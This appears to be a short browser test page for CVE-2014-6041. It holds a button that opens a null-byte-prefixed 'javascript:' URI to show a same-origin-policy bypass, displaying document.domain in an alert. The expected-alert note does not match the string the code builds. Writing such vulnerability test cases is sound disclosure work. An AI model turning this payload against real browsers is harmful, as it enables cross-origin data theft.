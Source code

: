 ```yaml
---
layout: default
title: SOP Bypass - Testcase 1
permalink: /sop/new/1
---
```


<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
